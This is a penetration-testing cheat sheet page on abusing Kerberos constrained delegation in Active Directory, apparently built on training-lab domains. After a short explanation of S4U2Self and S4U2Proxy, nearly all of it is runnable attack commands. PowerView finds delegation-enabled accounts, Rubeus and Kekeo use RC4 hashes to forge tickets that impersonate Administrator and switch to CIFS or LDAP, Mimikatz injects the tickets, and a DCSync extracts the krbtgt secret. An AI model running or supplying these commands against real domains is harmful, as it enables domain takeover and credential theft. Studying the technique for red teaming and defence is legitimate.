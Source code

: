 ```yaml
---
layout: page
title: "# AD Constrained Delegation"
permalink: /ad_cheatsheets/ad_contrained_delegation
---
```


## General Info

If a frontend service does not use Kerberos authentication and the backend service does, it needs to be able to request a TGS to the frontend service from a KDC on behalf of the user who is authenticating against it. The S4U2Self extension enables this if the TRUSTED_TO_AUTH_FOR_DELEGATION value is present in the useraccountcontrol property.
Additionally, the frontend service can do this without requiring the password or the hash of the
user.

Similar to S4U2Self, the S4U2proxy extension requests a service ticket for the backend service on
behalf of a user. This extension depends on the service ticket obtained either through S4U2Self or
directly from a user authentication via Kerberos.

## Find Servers that has constrained delegation
```powershell
#PowerView
Get-DomainUser -TrustedToAuth
```

#Check if "TRUSTED_TO_AUTH_FOR_DELEGATION" is set and check the "msds-allowedtodelegateto" SIDS to know the SID's the account (samaccountname) can delegate to.

## Using Rubeus to request a TGS on behalf of a specific user

```powershell
#Get the hash for the account we want to use for requesting a ticket on behalf of the user when we do have a clear-text password we can convert it to a hex:
.\Rubeus.exe hash /password:lab

#Now let's use the hash to start with the asktgt command to generate a TGT for IISSvc service:
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

#Now we have the Base64-encoded TGT for IISSvc we can use the S4U extensions to impersonate a random username and request a ticket to another service. We also need the service we are requesting the ticket for. We imidiatly inject the requested ticket to our process with the /ptt flag:
.\Rubeus.exe s4u /ticket:%TICKETNAME% /impersonateuser:%Username-to-impersonate /msdsspn:mssqlsvc/dc01.prod.corp1.com:1433 /ptt
```

## Use Rubeus to change the service

When the above action is performed we can use Rubeus to change the servicename of the ticket as long as the service is active on the same server.

```powershell
.\Rubeus.exe s4u /ticket:%TICKETNAME% /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt
```

## Using Kekeo to Requst TGT

```powershell
.\kekeo.exe

tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

## Use TGT to get TGS

```powershell
tgs::s4u

tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs /dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

## Inject Ticket in Current Session

```powershell
. ..\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

---

## Using Rubeus to get TGS

```powershell
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

---

## Enum Computers with contrained Delegation

```powershell
. .\PowerView_dev.ps1

Get-DomainComputer -TrustedToAuth
```

## Request TGT

```powershell
.\kekeo.exe

tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d
```

## Request TGS

```powershell
tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```

## Using this TGS to Do DYSync

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Abuse Contrained Delegation with Rebeus

```powershell
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:8c6264140d5ae7d03f7f2a53088a291d/impersonateuser:Administrator /msdsspn:"time/dcorp-dc.dollarcorp.moneycorp.LOCAL" /altservice:ldap /ptt
```

## DCSync Attack

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

```

## Other Resources

[Kerberos Constrained Delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)

[Constrained Delegation Abuse: Abusing Constrained Delegation to Achieve Elevated Access | Stealthbits Technologies](https://stealthbits.com/blog/constrained-delegation-abuse-abusing-constrained-delegation-to-achieve-elevated-access/)
